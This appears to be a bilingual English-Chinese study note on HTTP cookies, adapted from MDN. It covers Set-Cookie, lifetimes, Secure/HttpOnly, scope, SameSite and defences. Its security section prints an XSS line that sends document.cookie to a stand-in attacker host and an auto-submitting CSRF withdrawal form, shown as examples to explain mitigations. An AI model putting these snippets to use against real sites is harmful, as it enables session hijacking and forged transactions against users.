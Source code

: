```yaml
---
id: cookie
title: Cookie
---
```


An HTTP cookie (web cookie, browser cookie) is a small piece of data that a server sends to the user's web browser. The browser may store it and send it back with the next request to the same server. Typically, it's used to tell if two requests came from the same browser — keeping a user logged-in, for example. It remembers stateful information for the stateless HTTP protocol.

服务器发送cookie给用户浏览器，浏览器存储cookie并且在下次请求中带上cookie。通常，cookie用于告诉服务器两个请求是否来自同一个浏览器（记住状态）。

使用cookie的三个目的：

  1. `Session Management` Logins, shopping carts, game scores, or anything else the server should remember

  2. `Personalization` User preferences, themes and other settings

  3. `Tracking` Recording and analyzing user behavior

因为每次请求都会带上cookie，所以在网速受限的情况下会影响性能。如果只是想在客户端存储信息，可以使用`Web Storage Api`和`IndexedDB`.

## Creating cookies

When receiving an HTTP request, a server can send a `Set-Cookie` header with the response. The cookie is usually stored by the browser, and then the cookie is sent with requests made to the same server inside a `Cookie` HTTP header. An expiration date or duration can be specified, after which the cookie is no longer sent. Additionally, restrictions to a specific domain and path can be set, limiting where the cookie is sent.

服务器通过返回Set-Cookie header使浏览器保存cookie，浏览器发送请求时带着Cookie header来把cookie传回服务器。可以设置cookie的有限时间，发送的domain和path来限制它的发送。

## Session cookies

不设定Expires或Max-Age的cookie，会在页面关闭时失效，但是浏览器可以恢复页面，所以这种类型的cookie也是可以恢复的。

## Permanent cookies

设定Expires或者Max-Age的cookie，会在截止时间之前永久有效。截止时间是相对于客户端时间的，而不是服务器。

## Secure and HttpOnly cookies

Secure cookie 只支持HTTPS，HttpOnly cookie不能用document.cookie访问，只能送给服务器，相当于对用户隐身。

## Scope of cookies

Domain 和 Path 决定了cookie要送往的URL。

## SameSite cookies

服务器可以设置跨域请求能不能带上cookie，帮助防御CSRF攻击。

`None` 无限制

`Strict` 只允许同域请求带cookie

`Lax` 默认，禁止跨域子请求，比如加载图片或frames，但是当用户从外部链接导航到URL时，允许带cookie。

## Security

### Session hijacking and XSS

Cookies are often used in web application to identify a user and their authenticated session, so stealing a cookie can lead to hijacking the authenticated user's session. Common ways to steal cookies include Social Engineering or exploiting an XSS vulnerability in the application.

```javascript
(new Image()).src = "http://www.evil-domain.example.com/steal-cookie?cookie=" + document.cookie;
```

The `HttpOnly` cookie attribute can help to mitigate this attack by preventing access to cookie value through JavaScript. Exfiltration avenues can be limited by deploying a strict Content-Security-Policy.

### Cross-site request forgery (CSRF)

CSRF (Cross-Site Request Forgery) is an attack that impersonates a trusted user and sends a website unwanted commands. This can be done, for example, by including malicious parameters in a URL behind a link that purports to go somewhere else:

```html
<img src="https://www.example.com/index.php?action=delete&id=123">

<form action="https://bank.example.com/withdraw" method="POST">
  <input type="hidden" name="account" value="bob">
  <input type="hidden" name="amount" value="1000000">
  <input type="hidden" name="for" value="mallory">
</form>
<script>
  window.addEventListener('DOMContentLoaded', (e) => { document.querySelector('form').submit(); }
</script>
```

防止CSRF的方法：implement RESTful API, add secure token, etc.

1. 不要用GET带query参数的方法替代POST，规避GET形式的CSRF

2. `<form>`中要隐藏一个CSRF token, 该token对每个用户来说是独特的，并且存储在服务器上。服务器处理请求时要比对请求中的token和服务器上的token是否一致。This method of protection relies on an attacker being unable to predict the user's assigned CSRF token. The token should be regenerated on sign-in.

3. Cookies that are used for sensitive actions (such as session cookies) should have a short lifetime with the SameSite attribute set to `Strict` or `Lax`. (See `SameSite` cookies above). In supporting browsers, this will have the effect of ensuring that the session cookie is not sent along with cross-site requests and so the request is effectively unauthenticated to the application server.

4. Both CSRF tokens and SameSite cookies should be deployed. This ensures all browsers are protected and provides protection where SameSite cookies cannot help (such as attacks originating from a separate subdomain).
